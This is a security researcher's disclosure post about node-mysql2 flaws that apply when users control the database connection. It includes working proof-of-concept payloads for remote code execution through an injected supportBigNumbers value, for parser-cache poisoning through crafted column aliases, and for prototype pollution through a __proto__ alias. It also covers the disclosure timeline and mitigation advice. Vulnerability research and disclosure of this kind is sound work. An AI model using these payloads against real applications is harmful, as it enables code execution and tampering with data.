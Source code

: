 +++
title = 'MySQL2: Dangers of User-Defined Database Connections'
date = 2024-03-26T00:00:00+03:00
draft = false
+++

> The article is informative and intended for security specialists conducting testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.

# Introduction
At the end of last year, I encountered an automation system that utilized the node-mysql2 library to connect to user databases and execute queries controlled by them.
In this article, I want to discuss the issues it causes and provide you with their solutions.

# Basics
In the application I was researching, the user could establish a connection to their database and execute queries with it:

```
// Simplified example
const mysql = require('mysql2');
...
const connection = mysql.createConnection({
    host: userdata.host,
    user: userdata.user,
    database: userdata.db,
    password: userdata.password,
});
...
connection.query(userdata.query,reponseFunction)
);
```

Obviously, in this case, we cannot talk about standard SQL-related attack vectors since the connection belongs to us. Therefore, we should consider issues related to affecting other users data or server performance.

# RCE
As you might guess, I was able to find a way to execute arbitary code in such a configuration, but how is this possible?

First, let's understand how the library works. In most cases, the first argument passed to the connection.query function is a string containing the query:
```
connection.query("SELECT 1;",reponseFunction)
```

But actually, the first argument can also be an object, where in addition to the query itself, we can pass parameters for its processing:
```
connection.query({sql:"SELECT 1;", ... },reponseFunction)
```

After that, the passed configuration parameters will be used by the response parsing [function](https://github.com/sidorares/node-mysql2/blob/1609b5393516d72a4ae47196837317fbe75e0c13/lib/parsers/text_parser.js#L14C10-L14C21).

If you look closely, you will notice that this function involves code generation. MySQL2 generates a parsing function for each query, which is then cached for optimization purposes. This is important for understanding this article.

I noticed that in most cases, it successfully sanitizes the data that enters the generated code. However, there is also a line:
```
      return `packet.parseLengthCodedInt(${supportBigNumbers})`;
```

The parameter supportBigNumbers is a number in a legitimate case, so it is not sanitized. However, are there any checks for this?

A quick look at the code revealed that such checks are absent. This piece of code will be executed if the executed query returns a BIGNUMBER, so to achieve RCE, it is sufficient to pass the following object as the first argument:
```
 {sql:`SELECT INDEX_LENGTH FROM information_schema.tables LIMIT 1`, supportBigNumbers:"console.log(1337)"}
```

As a result, you will see 1337 in the console after executing this database query.

**!!! It's also important to understand that an object with a global prototype is used as a map. Therefore, you can use this as Prototype Pollution to achieve RCE. If the targeted application uses mysql2 and you achieve PP, you can also gain RCE.**

# Cache Poisoning
The next vulnerability becomes accessible even in stricter application configurations. Its exploitation is possible even if the first argument query is checked to ensure it is a string.
As I mentioned earlier, the library utilizes caching of generated response functions. Let's take a look at how it was [implemented](https://github.com/sidorares/node-mysql2/blob/fd3d117da82cc5c5fa5a3701d7b33ca77691bc61/lib/parsers/parser_cache.js#L9):
```
function keyFromFields(type, fields, options, config) {
  let res =
    `${type}` +
    `/${typeof options.nestTables}` +
    `/${options.nestTables}` +
    `/${options.rowsAsArray}` +
    `/${options.supportBigNumbers || config.supportBigNumbers}` +
    `/${options.bigNumberStrings || config.bigNumberStrings}` +
    `/${typeof options.typeCast}` +
    `/${options.timezone || config.timezone}` +
    `/${options.decimalNumbers}` +
    `/${options.dateStrings}`;
  for (let i = 0; i < fields.length; ++i) {
    const field = fields[i];
    res += `/${field.name}:${field.columnType}:${field.length}:${field.schema}:${field.table}:${field.flags}:${field.characterSet}`;
  }
  return res;
}
```

As you can see, keys are inserted into the string, and ":" is used as a delimiter. This is a poor implementation because the values passed into the key can also contain ":". By exploiting this characteristic, one can manipulate the hashed function:
```
  connection.query(
    'SELECT information_schema.tables.TABLE_NAME,`tables:160:63/DATA_LENGTH:8:undefined::tables`.TABLE_ROWS FROM information_schema.tables INNER JOIN information_schema.tables AS `tables:160:63/DATA_LENGTH:8:undefined::tables` ON `tables:160:63/DATA_LENGTH:8:undefined::tables`.TABLE_ROWS!=information_schema.tables.TABLE_ROWS LIMIT 1;',
    function(err, results, fields) {
    }
  );
  // Send another request and spwan new connection
  connection1.query(
    `SELECT TABLE_NAME, TABLE_ROWS, DATA_LENGTH FROM information_schema.tables LIMIT 1;`,
    function(err, results, fields) {
      console.log(results);
      console.log(fields);
    }
  );
```
You will see output:
```
[ { TABLE_NAME: 'ADMINISTRABLE_ROLE_AUTHORIZATIONS', TABLE_ROWS: 0 } ]
[
  `TABLE_NAME` VARCHAR(64) NOT NULL,
  `TABLE_ROWS` BIGINT(21) UNSIGNED,
  `DATA_LENGTH` BIGINT(21) UNSIGNED
]
```

As evident, the fields of the second request include DATA_LENGTH, which, however, is absent in the results. This discrepancy arises because the first request stores in the cache a key `text/undefined/undefined/false/false/false/boolean/local/false/false/TABLE_NAME:253:undefined:information_schema:tables:20609:224/TABLE_ROWS:8:undefined::tables:160:63/DATA_LENGTH:8:undefined::tables:160:63` with an incorrect packet parser.

This can be used to disrupt the logic of the application, sending data types that are not expected.

Fixed in latest release.

# Prototype Poisoning / Pollution
Returning to the process of generating the function that parses the returned response, it can be observed that an object with a global prototype is used as the user-supplied [value](https://github.com/sidorares/node-mysql2/blob/fd3d117da82cc5c5fa5a3701d7b33ca77691bc61/lib/parsers/text_parser.js#L134):
```
parserFn("const result = {};");
```

Therefore, if you pass the following query:

```
SELECT CAST('{"toString": {"toString":true}, "tags": {"a": 1, "b": null}}' as JSON) AS __proto__;
```

You will notice that the response prototype has changed
```
Object.getPrototypeOf(results[0])
> { tags: { a: 1, b: null }, toString: { toString: true } }
```
his only controls a specific prototype, not the global one. However, if we have the ability to control the configuration, we can simply pass `nestTables: true`:
```
    } else if (options.nestTables === true) {
        lvalue = `result[${helpers.srcEscape(fields[i].table)}][${fieldName}]`;
    }
```
As many might understand, this will give us full prototype pollution.

# Conclusion 
I informed the vendor about these issues 90 days ago and my intentions to publish this material on March 26th. Unfortunately, the vendor did not provide the necessary cooperation, ignoring my emails for months, so this material was released without the final fixes.
Today, a [fix](https://github.com/sidorares/node-mysql2/releases/tag/v3.9.3) was released that addresses the cache manipulation issue. However, the remaining problems remain relevant in the latest version.
If you are using the library in the described scenarios, I strongly advise you to limit the connection parameters and the parameters passed in the query.